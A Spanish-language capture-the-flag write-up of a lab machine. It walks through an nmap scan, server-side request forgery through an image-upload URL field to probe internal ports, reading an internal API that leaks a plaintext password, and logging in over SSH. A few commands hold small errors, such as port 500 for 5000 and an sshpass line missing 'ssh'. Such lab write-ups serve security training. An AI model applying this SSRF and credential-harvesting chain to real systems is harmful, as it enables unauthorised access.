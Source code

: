 # Reconocimiento
> sudo nmap -sS -sV -A --min-rate 5000 --open -vvv -Pn 10.10.11.20

- Puertos encontrados

| Resultados |
|-----------|
|22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)|
|80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)|

- Revisamos la web montada en el servicio http
  
> Colocamos en la barra del navegador la ip de la maquina y obtenemos un nombre de url
> http://editorial.htb/

- Colocamos la ip en el archivo Hosts de nuestra maquina atacante
  
> sudo nano /etc/hosts

> 10.10.11.20 editorial.htb

- Abrimos bursuite
- Habilitamos para interceptar las peticiones
- Dentro de la web, tenemos una seccion para cargar una imagen mediante url
- Colocamos el local host

> http://127.0.0.1  

- Le damos al boton de preview
- Colocamos la peticion en repeter en burpsuite
- le damos a send dentro de repeater
- obtenemos el siguiente resultado

> /static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg

- realizamos un analisis con ffuf

> ffuf -w /usr/share/wordlists/SecLists-master/Discovery/Infrastructure/common-http-ports.txt -request post.req -u http://editorial.htb/upload-cover -fs 61

- obtenemos estado 200 en el puerto 5000
- luego nuevamente dentro de burpsuite nos colocamos para interceptar
- dentro de la web colocamos

> http://127.0.0.1:500

- capturamos y mandamos a repeter y luego send
- obtenemos lo siguiente

> static/uploads/859593e2-21ca-4ab7-9343-8ab25e6b253e

- esto lo colocamos dentro de la web de la siguiente manera

> http://127.0.0.1:5000/static/uploads/859593e2-21ca-4ab7-9343-8ab25e6b253e

- esto va a mostar una carga con error le damos click derecho a la imagen rota y le damos a abrir en una ventana nueva
- eso nos va a permitir descargar una archivo
- luego que descargamos revisamos el contenido

----------------------------------------------------------
{"messages"
:[{"promotions":{"description":"Retrieve a list of all the promotions in our library.",
"endpoint":"/api/latest/metadata/messages/promos",
"methods":"GET"}},

{"coupons":{"description":"Retrieve the list of coupons to use in our library.",
"endpoint":"/api/latest/metadata/messages/coupons",
"methods":"GET"}},

{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.",
"endpoint":"/api/latest/metadata/messages/authors",
"methods":"GET"}},

{"platform_use":{"description":"Retrieve examples of how to use the platform.",
"endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],
"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.",
"endpoint":"/api/latest/metadata/changelog","methods":"GET"}},

{"latest":{"description":"Retrieve the last version of api.",
"endpoint":"/api/latest/metadata",
"methods":"GET"}}]}
----------------------------------------------------------

- revisamos cada una de las url a ver que podemos obtener
- lo pegamos en la seccion de url de la web de la siguiente manera

> http://127.0.0.1:5000/api/latest/metadata/messages/authors

- le damos en la imagen rota click derecho y abrir en una nueva ventana y descargamos
-  revisamos el contenido

----------------------------------------------------------
{"template_mail_message":
"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.
\n\nYour login credentials for our internal forum and authors site are
:\n     Username: dev
\n     Password: dev080217_devAPI!@
\nPlease be sure to change your password as soon as possible for security purposes.
\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.
\n\nBest regards, Editorial Tiempo Arriba Team."}
----------------------------------------------------------

- obtenemos el usuario y la contrasena

| user | password |
|------|----------|
| dev | dev080217_devAPI!@ |

- intentamos ingresar por ssh con estos datos

> sshpass -p "dev080217_devAPI!@" dev@10.10.11.20

- al ingresar podemos ver la primera flag








